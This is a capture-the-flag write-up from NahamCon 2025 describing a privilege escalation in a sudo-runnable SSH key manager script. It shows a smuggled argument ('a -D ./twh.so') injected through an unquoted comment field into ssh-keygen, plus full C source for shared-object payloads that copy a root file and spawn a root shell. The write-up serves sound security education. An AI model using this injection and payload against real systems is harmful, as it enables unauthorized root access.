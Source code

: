 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2025 | SSSH Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Nahamcon 2025
parent: nahamcon_2025
category: misc
challenge: SSSH
tags: "misc, twh, privesc, gtfobins, ssh, lib2shell"
date: 2025-05-31T00:00:00+00:00
last_modified_at: 2025-05-31T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Nahamcon 2025</h1>


## SSSH
> Solved by thewhiteh4t

In this challenge we were given SSH access to an instance which contained a custom bash script which is a SSH key manager script. Running `sudo -l` reveals that our user can run the script as root without a password. This was a privilege escalation challenge.


![](https://i.imgur.com/ZToHz2J.png)


Luckily the code of the script was readable. After reading it for some time one block looked interesting : 


    comment=$(gum input --placeholder "Enter comment for key (optional)" --prompt "Comment: ")
    
        if ! is_valid_input "$comment"; then
            gum style --foreground "$ERROR_FG" --border-foreground "$ERROR_BORDER_FG" --border double --align center --width "$BOX_WIDTH" --margin "$BOX_MARGIN" --padding "$BOX_PADDING" "Invalid comment: Dangerous characters"
            return 1
        fi
    
        if [ -f ~/.ssh/"$key_name" ] || [ -f ~/.ssh/"$key_name.pub" ]; then
            if ! gum confirm "Key ~/.ssh/$key_name already exists. Overwrite?"; then
                return
            fi
            overwrite_flag="-y"
        else
            overwrite_flag=""
        fi
    
        mkdir -p ~/.ssh
        chmod 700 ~/.ssh
    
        if [ -n "$comment" ]; then
            error_output=$(gum spin --spinner dot --title "Generating key in ~/.ssh..." -- \
                ssh-keygen $overwrite_flag -C $comment -t $key_type -f ~/.ssh/"$key_name" -N "$passphrase" 2>&1)
        else
            error_output=$(gum spin --spinner dot --title "Generating key in ~/.ssh..." -- \
                ssh-keygen $overwrite_flag -t $key_type -f ~/.ssh/"$key_name" -N "$passphrase" 2>&1)
        fi

As you must have noticed all the inputs are quoted except one : 


    ssh-keygen $overwrite_flag -C $comment -t $key_type -f ~/.ssh/"$key_name" -N "$passphrase" 2>&1)

`$comment` is left unquoted so we can inject something here.

After a lot of hit and trials I finally realized that `ssh-keygen` offers a privesc vector. You can find more about it here :

[GTFOBins](https://gtfobins.github.io/gtfobins/ssh-keygen/)

Since we can have control over comment argument option we can simply add more arguments, specifically `-D` so that we can execute our malicious shared object `.so` file.

But first I had to figure out how to create a malicious shared object file for ssh-keygen. My search led me to a fork of [lib2shell](https://github.com/jonasheschl/lib2shell-ssh-keygen/blob/master/unix/lib2shell.c) which does exactly what I need. So I used the following code to compile the so file : 


    #include <stdio.h>
    #include <unistd.h>
    
    #define SHELL_PATH "/bin/sh"
    
    void __attribute__ ((constructor)) constructor() {
        puts("[lib2shell by SeanP, modified by Jonas Heschl]");
    
        long long err = execl(SHELL_PATH, SHELL_PATH, "cp /root/flag.txt /home/user/flag.txt; chown user:user /home/user/flag.txt", NULL);
        printf("Result: %lld\n", err);
    }
    
    // ssh-keygen makes a rudimentary check when loading a library with `ssh-keygen -D`.
    // If the check fails, loading is aborted. This function exists to make the check pass.
    int C_GetFunctionList() {
        return 1;
    }

Compiled it using : 


    gcc -fPIC -shared -o twh.so twh.c

and here is the value of comment I used :


    a -D ./twh.so

First I managed to copy the flag from `/root/flag.txt` to `/home/user/flag.txt` but I did not get the flag!


![](https://i.imgur.com/JGHdgr9.png)


So now the goal was to obtain a root shell. The problem was that a simple payload like `/bin/bash -s` was not working since the script uses `gum` which is a kind of wrapper that is used to create the TUI of the script, so the shell spawn was not usable due to messed up input output redirection.

Then I eventually landed on a fix for redirection, alternatively we can also use the bash reverse shell which most are familiar with


    #include <stdio.h>
    #include <unistd.h>
    
    #define SHELL_PATH "/bin/sh"
    
    void __attribute__ ((constructor)) constructor() {
        puts("[lib2shell by SeanP, modified by Jonas Heschl]");
    
        long long err = execl("/bin/bash", "bash", "-c", "bash < /dev/tty > /dev/tty 2>&1 &", NULL);
        printf("Result: %lld\n", err);
    }
    
    int C_GetFunctionList() {
        return 1;
    }

Using the new so file I managed to get a root shell.


![](https://i.imgur.com/xrcbmXv.png)


Then I saw why I did not get flag earlier, because we were supposed to run a binary to get the flag, this was done to increase the complexity of the challenge a bit.


![](https://i.imgur.com/lnlmWcA.png)


**Key Learning and Takeaways**


- Code Review : We had the script's code, which is a blessing in CTFs. The key was to read through it slowly while understanding what each line is doing.
- GTFOBins : When you find a command that can be run as root, your next stop should be GTFOBins. It's an incredible resource that lists known ways to abuse common binaries for privilege escalation.
- Crafting the Malicious Shared Object : This was the truly technical part! We needed a specific .so file that would execute a shell for us when loaded. Finding and adapting a lib2shell fork was fun.


